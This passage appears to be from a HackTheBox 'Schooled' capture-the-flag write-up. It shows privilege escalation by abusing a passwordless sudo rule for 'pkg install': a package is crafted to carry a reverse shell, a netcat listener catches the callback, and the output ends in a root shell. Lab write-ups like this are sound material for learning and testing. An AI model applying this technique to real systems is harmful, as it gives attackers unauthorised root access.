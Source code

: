 ## Sudo -l
Run sudo -l and see you can execute binaries as root without password
```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```
Checking out GTFOBins, see that the path forward is pretty straightforward
![[Pasted image 20210705205615.png]]
From here on the privesc is:
- change where it says *id* to your reverse shell
- upload the new .txz file to the victim
- start a netcat listener on attacking machine
- run binary as sudo and wait for callback

```bash
hunter@kali ~/htb/schooled$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.234] 15134
# id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
```